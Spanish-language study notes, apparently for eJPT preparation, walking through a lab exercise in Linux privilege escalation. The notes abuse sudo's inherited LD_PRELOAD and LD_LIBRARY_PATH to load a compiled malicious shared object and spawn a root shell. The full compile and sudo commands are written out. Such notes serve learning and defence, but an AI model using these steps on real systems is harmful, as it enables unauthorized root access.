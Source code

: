 - Sudo se puede configurar para heredar ciertas variables de entorno del entorno del -usuario.
- Compruebe qué variables de entorno se heredan (busque las opciones env_keep):

```
sudo -l
```


![[Apuntes/Imagenes/Pasted image 20240322230125.png]]

- LD_PRELOAD y LD_LIBRARY_PATH se heredan del entorno del usuario. LD_PRELOAD carga un objeto compartido antes que cualquier otro cuando se ejecuta un programa. LD_LIBRARY_PATH proporciona una lista de directorios donde se buscan primero las bibliotecas compartidas.
 
- Cree un objeto compartido usando el código ubicado en /home/user/tools/sudo/preload.c:

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

- Ejecute uno de los programas que puede ejecutar mediante sudo (que aparecen al ejecutar sudo -l), mientras configura la variable de entorno LD_PRELOAD en la ruta completa del nuevo objeto compartido:

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

- Debería generarse un shell root. Sal del caparazón antes de continuar. Dependiendo del programa que elijas, es posible que también tengas que salir de este. 

- Ejecute ldd en el archivo de programa apache2 para ver qué bibliotecas compartidas utiliza el programa:

```
ldd /usr/sbin/apache2
```

- Cree un objeto compartido con el mismo nombre que una de las bibliotecas enumeradas (libcrypt.so.1) usando el código ubicado en /home/user/tools/sudo/library_path.c:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

- Ejecute apache2 usando sudo, mientras configura la variable de entorno LD_LIBRARY_PATH en /tmp (donde generamos el objeto compartido compilado):

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

![[Apuntes/Imagenes/Pasted image 20240323000043.png]]


enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Sudo - Shell Escape Sequences]]
